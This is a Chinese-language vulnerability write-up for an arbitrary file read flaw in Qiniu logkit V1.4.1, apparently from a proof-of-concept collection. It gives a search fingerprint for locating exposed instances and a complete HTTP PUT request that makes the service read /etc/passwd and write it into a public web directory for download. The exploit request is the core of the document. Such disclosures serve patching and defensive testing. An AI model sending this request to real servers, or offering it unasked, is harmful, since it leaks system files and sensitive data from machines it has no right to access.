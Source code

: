 # 七牛云 logkit log_path 任意文件读取漏洞

## 漏洞描述

七牛云 logkit log_path 参数可自定义读取服务器文件，配合读取的文件写入Web目录将会使攻击者读取到服务器任意文件，造成服务器敏感信息泄漏

## 漏洞影响

```
七牛云 logkit V1.4.1
```

## 网络测绘

```
title="七牛Logkit配置文件助手"
```

## 漏洞复现

主页面

![image-20220628115711831](./images/202206281157893.png)

发送请求包配置读取文件

```
PUT /logkit/configs/passwdread HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 356
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

{
  "name": "passwdread",
  "batch_interval": 1,
  "collect_interval": 1,
  "reader": {
    "mode": "file",
    "log_path": "/etc/passwd",
    "read_from": "oldest",
    "datasource_tag": "datasource",
    "encoding": "UTF-8"
  },
  "parser": {
    "type": "raw",
    "name": "parser",
    "timestamp": "true"
  },
  "transforms": [],
  "senders": [
    {
      "sender_type": "file",
      "file_send_path": "/app/public/passwd.log"
    }
  ]
}
```

![image-20220628115730198](./images/202206281157267.png)

![image-20220628115736774](./images/202206281157819.png)

请求读取的文件 /app/public 目录为Docker默认Web路径，写入可读取目标文件

![image-20220628115747872](./images/202206281157946.png)